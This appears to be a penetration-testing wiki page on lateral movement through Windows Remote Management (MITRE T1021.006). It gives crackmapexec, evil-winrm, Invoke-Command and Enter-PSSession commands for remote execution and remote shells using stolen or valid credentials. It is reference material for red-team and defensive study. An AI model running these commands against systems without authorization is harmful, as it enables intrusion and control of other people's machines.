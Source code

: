 ```yaml
---
description: >-
  MITRE ATT&CK™  Remote Services: Windows Remote Management   - Technique
  T1021.006
---
```


# WinRM

## Theory

Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to interact with remote systems using Windows Remote Management (WinRM). The adversary may then perform actions as the logged-on user.

WinRM is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services).[\[1\]](http://msdn.microsoft.com/en-us/library/aa384426) It may be called with the `winrm` command or by any number of programs such as PowerShell.[\[2\]](https://www.slideshare.net/kieranjacobsen/lateral-movement-with-power-shell-2) WinRM can be used as a method of remotely interacting with [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047).[\[3\]](https://msdn.microsoft.com/en-us/library/aa394582.aspx)

## Practice

### Execute Remote Commands

{% tabs %}
{% tab title="UNIX-like" %}
We can use [crackmapexec](https://github.com/mpgn/CrackMapExec) to remotely execute a command on the target over WinRM.

```bash
#Execute command
crackmapexec winrm <IP> -u <user> -p <password> -x "whoami"

#Execute PowerShell command
crackmapexec winrm <IP> -u <user> -p <password> -x "$(Get-WMIObject -class Win32_ComputerSystem | select username).username"
```
{% endtab %}

{% tab title="Windows" %}
We can use the PowerShell `Invoke-Command` cmdlet to remotely execute a command on the target over WinRM.

```powershell
#Create Powershell PSCredential object
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

#Invoke command remotly
Invoke-Command -Computername <TARGET> -Credential $credential -ScriptBlock {whoami}

#Invoke command remotly from functions of your current PS console (like imported modules)
Invoke-Command -ComputerName <TARGET> -Credential $credential -ScriptBLock ${function:enumeration} [-ArgumentList "arguments"]
```

You may also run scripts using WInRM

```powershell
Invoke-Command -ComputerName <TARGET> -FilePath C:\path\to\script\file -credential $credential
```
{% endtab %}
{% endtabs %}

### Remote shell

{% tabs %}
{% tab title="UNIX-like" %}
[Evil-winrm](https://github.com/Hackplayers/evil-winrm) can be use to obtain a winrm powershell session

```bash
evil-winrm -u <user> -p <password> -i <IP>
```
{% endtab %}

{% tab title="Windows" %}
We can use Powershell's `Enter-PSSession` cmdlet to start an interactive session with a remote computer.

```powershell
#Create Powershell PSCredential object
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

# Start a remote powershell session
Enter-PSSession -ComputerName <TARGET> -Credential $credential
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1021/006/" %}
